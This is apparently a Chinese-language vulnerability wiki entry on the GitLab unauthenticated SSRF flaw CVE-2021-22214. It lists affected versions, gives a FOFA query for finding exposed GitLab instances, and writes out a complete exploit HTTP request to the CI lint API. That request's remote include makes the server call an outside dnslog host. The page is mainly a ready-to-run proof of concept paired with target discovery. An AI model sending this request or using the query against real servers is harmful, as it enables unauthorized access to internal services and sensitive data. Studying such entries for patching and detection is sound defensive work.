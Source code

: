 # GitLab SSRF漏洞 CVE-2021-22214

## 漏洞描述

GitLab存在前台未授权SSRF漏洞，未授权的攻击者也可以利用该漏洞执行SSRF攻击（CVE-2021-22214）。该漏洞源于对用户提供数据的验证不足，远程攻击者可通过发送特殊构造的 HTTP 请求，欺骗应用程序向任意系统发起请求。攻击者成功利用该漏洞可获得敏感数据的访问权限或向其他服务器发送恶意请求。

## 漏洞影响

> [!NOTE]
>
> Gitlab > 10.5 

## FOFA

> [!NOTE]
>
> app="GitLab"

## 环境搭建

http://vulfocus.fofa.so/

![image-20210627220351605](http://wikioss.peiqi.tech/vuln/image-20210627220351605.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 漏洞复现

登录页面如下

![image-20210627220651158](http://wikioss.peiqi.tech/vuln/image-20210627220651158.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

发送请求包

```
POST /api/v4/ci/lint HTTP/1.1
Host: 
User-Agent: python-requests/2.25.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: application/json
Content-Length: 111

{"include_merged_yaml": true, "content": "include:\n  remote: http://965qaw.dnslog.cn/api/v1/targets?test.yml"}
```

![image-20210627220854023](http://wikioss.peiqi.tech/vuln/image-20210627220854023.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)